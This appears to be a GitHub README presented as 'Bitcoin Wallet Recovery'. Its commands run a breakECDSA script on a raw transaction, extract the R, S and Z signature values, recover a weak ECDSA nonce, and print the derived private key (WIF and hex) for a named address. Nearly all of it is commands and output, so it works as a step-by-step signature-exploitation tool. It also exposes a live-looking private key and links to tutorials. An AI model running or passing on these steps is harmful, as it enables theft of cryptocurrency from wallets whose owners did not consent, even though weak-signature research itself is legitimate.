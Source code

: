 # Bitcoin Wallet Recovery

---

* Tutorial: https://youtu.be/xBgjWE5tA7Y
* Tutorial: https://cryptodeep.ru/shortest-ecdsa-signature

---

# Commands:

    git clone https://github.com/demining/CryptoDeepTools.git

    cd CryptoDeepTools/09BitcoinWalletRecovery/

    ls

    pip2 install -r requirements.txt

   
    python2 breakECDSA.py 0100000001afddd5c9f05bd937b24a761606581c0cddd6696e05a25871279f75b7f6cf891f250000005f3c303902153b78ce563f89a0ed9414f5aa28ad0d96d6795f9c6302200a963d693c008f0f8016cfc7861c7f5d8c4e11e11725f8be747bb77d8755f1b8012103151033d660dc0ef657f379065cab49932ce4fb626d92e50d4194e026328af853ffffffff010000000000000000016a00000000 > signatures.txt
    
    cat signatures.txt

---
 
##   R = 0x00000000000000000000003b78ce563f89a0ed9414f5aa28ad0d96d6795f9c63
##   S = 0x0a963d693c008f0f8016cfc7861c7f5d8c4e11e11725f8be747bb77d8755f1b8
##   Z = 0x521a65420faa5386d91b8afcfab68defa02283240b25aeee958b20b36ddcb6de    

---

##   0x7fffffffffffffffffffffffffffffff5d576e7357a4501ddfe92f46681b20a0 --> 0x3b78ce563f89a0ed9414f5aa28ad0d96d6795f9c63, 0x3f3979bf72ae8202983dc989aec7f2ff2ed91bdd69ce02fc0700ca100e59ddf3

---

#   Signatures:

---

    cat Privkey.txt
    
##   K = 0x7fffffffffffffffffffffffffffffff5d576e7357a4501ddfe92f46681b20a0
##   R = 0x00000000000000000000003b78ce563f89a0ed9414f5aa28ad0d96d6795f9c63
##   S = 0x0a963d693c008f0f8016cfc7861c7f5d8c4e11e11725f8be747bb77d8755f1b8
##   Z = 0x521a65420faa5386d91b8afcfab68defa02283240b25aeee958b20b36ddcb6de

---

    python3 calculate.py

---

# PRIVATE KEY:

---

##   ADDR: 15HvLBX9auG2bJdLCTxSvjvWvdgsW7BvAT
##   WIF:  L3LxjEnwKQMFYNYmCGzM1TqnwxRDi8UyRzQpVfmDvk96fYN44oFG
##   HEX:  b6c1238de89e9defea3ea0712e08726e338928ac657c3409ebb93d9a0873797f 


---

# Private key found!
# Bitcoin wallet restored!

---

* Tutorial: https://youtu.be/xBgjWE5tA7Y
* Tutorial: https://cryptodeep.ru/shortest-ecdsa-signature

---







|  | Donation Address |
| --- | --- |
| ♥ __BTC__ | 1Lw2kh9WzCActXSGHxyypGLkqQZfxDpw8v |
| ♥ __ETH__ | 0xaBd66CF90898517573f19184b3297d651f7b90bf |
